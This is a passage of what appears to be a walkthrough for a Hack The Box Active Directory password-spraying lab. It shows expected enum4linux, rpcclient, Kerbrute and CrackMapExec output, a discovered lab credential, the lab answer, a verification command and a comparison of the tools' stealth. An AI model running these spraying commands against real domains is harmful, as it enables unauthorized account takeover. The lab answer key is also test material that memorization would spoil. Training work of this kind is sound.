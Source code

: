 #### 6️⃣ **Expected Results**
Based on the lab content, you should see:

**enum4linux output (userlist creation):**
```bash
# validUsers.txt should contain usernames like:
administrator
guest
krbtgt
lab_adm
htb-student
sgage
avazquez
...
```

**Password spraying results:**
```bash
# rpcclient output:
Account Name: sgage, Authority Name: INLANEFREIGHT

# Kerbrute output (exactly from HTB lab):
[!] lab_adm@inlanefreight.local:Welcome1 - KDC_Error: KDC has no support for encryption type
[+] VALID LOGIN: sgage@inlanefreight.local:Welcome1
Done! Tested 21 logins (1 successes) in 0.061 seconds

# CrackMapExec output:
[+] INLANEFREIGHT.LOCAL\sgage:Welcome1
```

### ✅ **Answer**: `sgage`

#### 7️⃣ **Verification**
```bash
# Verify the discovered credentials
crackmapexec smb 172.16.5.5 -u sgage -p Welcome1

# Should show successful authentication
```

---

## 📊 Tool Comparison

| **Tool** | **Speed** | **Stealth** | **Accuracy** | **Features** | **Best Use Case** |
|----------|-----------|-------------|--------------|--------------|-------------------|
| **rpcclient** | Medium | Medium | High | Simple, reliable | Script automation |
| **Kerbrute** | Fast | High | High | Kerberos-based, minimal logs | Large-scale spraying |
| **CrackMapExec** | Medium | Low | High | Validation, local auth | Comprehensive testing |

---
